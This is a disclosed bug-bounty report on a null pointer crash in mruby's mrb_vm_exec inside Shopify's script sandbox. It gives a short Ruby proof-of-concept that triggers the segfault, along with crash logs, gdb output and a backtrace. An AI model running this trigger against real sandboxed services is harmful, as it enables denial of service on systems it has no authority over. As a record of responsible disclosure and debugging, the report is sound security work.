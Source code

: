 # SIGSEGV on mrb_vm_exec() Null Deref

## Report Details
- **Report ID**: 192485
- **URL**: https://hackerone.com/reports/192485
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-19T17:58:23.452Z
- **Disclosed**: 2017-03-01T21:34:10.736Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Crash occurs when `mrb_value *pool` is passed null value.

Sample
---------------------

The following code triggers the bug (attached as mrb_vm_exec.rb):

	Proc.remove_method(:initialize)
	Class.new{define_method(:m){}
	define_method(:m0,Proc.new)}.new.m0

Crash
---------------------
Attached as sandbox.log

	x@x:~/Desktop/research/mruby-engine/bin$ ./sandbox mrb_vm_exec.rb 
	./sandbox:20: [BUG] Segmentation fault at 0x00000000000010
	ruby 2.2.6p396 (2016-11-15 revision 56800) [x86_64-linux-gnu]

	-- Control frame information -----------------------------------------------
	c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
	c:0002 p:0186 s:0005 E:002528 EVAL   ./sandbox:20 [FINISH]
	c:0001 p:0000 s:0002 E:001740 TOP    [FINISH]

	-- Ruby level backtrace information ----------------------------------------
	./sandbox:20:in `<main>'
	./sandbox:20:in `sandbox_eval'

	-- Machine register context ------------------------------------------------
	 RIP: 0x00007f34c0d865ad RBP: 0x0000000000000000 RSP: 0x00007f34bf90d9e0
	 RAX: 0x00007f34bf921f30 RBX: 0x0000000000000000 RCX: 0x00007f34bf91ba00
	 RDX: 0x00007f34bf921b28 RDI: 0x00007f34bf94ab00 RSI: 0x0000000000000000
	  R8: 0x0000000000000000  R9: 0x0000000000000000 R10: 0x0000000000000256
	 R11: 0x0000000000000000 R12: 0x00007f34bf916fb0 R13: 0x00007f34bf91ba00
	 R14: 0x0000000000000001 R15: 0x00007f34bf916f80 EFL: 0x0000000000010297

	-- C level backtrace information -------------------------------------------
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f34c548ad55]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f34c548af8c]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f34c536706b]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f34c541d14e]
	/lib/x86_64-linux-gnu/libc.so.6 [0x7f34c4f67ff0]

Debug
---------------------

	x@x:~/Desktop/research/mruby-engine/bin$ gdb -q ruby
	Reading symbols from ruby...(no debugging symbols found)...done.
	(gdb) r sandbox mrb_vm_exec.rb 
	Starting program: /usr/bin/ruby sandbox mrb_vm_exec.rb
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
	[New Thread 0x7ffff7ff7700 (LWP 29428)]
	[New Thread 0x7ffff1f73700 (LWP 29487)]
	Program received signal SIGSEGV, Segmentation fault.
	mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=0x7ffff1f7bfb0, proc@entry=0x7ffff1f7c130, pc=0x7ffff1fd3bac) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1197
	1197	        pool = irep->pool;
	(gdb) list *$rip
	0x7ffff33eb5ad is in mrb_vm_exec (/home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1197).
	1192	      }
	1193	      else {
	1194	        /* setup environment for calling method */
	1195	        proc = mrb->c->ci->proc = m;
	1196	        irep = m->body.irep;
	1197	        pool = irep->pool;
	1198	        syms = irep->syms;
	1199	        ci->nregs = irep->nregs;
	1200	        if (n == CALL_MAXARGS) {
	1201	          ci->argc = -1;

	(gdb) p *irep
	$1 = {nlocals = 1, nregs = 4, flags = 0 '\000', iseq = 0x7ffff1fd3b90, pool = 0x0, syms = 0x7ffff1f957e0, reps = 0x7ffff1f99070, lv = 0x0, filename = 0x7ffff1f9b210 "mruby-engine.rb", lines = 0x7ffff1fd4ba0, 
	  debug_info = 0x7ffff1f95bf0, ilen = 9, plen = 0, slen = 6, rlen = 1, refcnt = 1}
	(gdb) p irep->pool
	$2 = (mrb_value *) 0x0

Backtrace
---------------------

	(gdb) bt
	#0  mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=0x7ffff1f7bfb0, proc@entry=0x7ffff1f7c130, pc=0x7ffff1fd3bac) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1197
	#1  0x00007ffff33f181c in mrb_vm_run (mrb=0x7ffff1f744e0, proc=0x7ffff1f7c130, self=..., stack_keep=stack_keep@entry=0) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:770
	#2  0x00007ffff33df41e in mruby_engine_monitored_eval (data=0x7ffff1f743e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
	#3  0x00007ffff7380182 in start_thread (arg=0x7ffff1f73700) at pthread_create.c:312
	#4  0x00007ffff769130d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:111

Impact
---------------------

This vulnerability is caused by NullPointer error. It can not be exploited, but it can cause DoS.

## Attachments
- mrb_vm_exec.rb
- sandbox.log
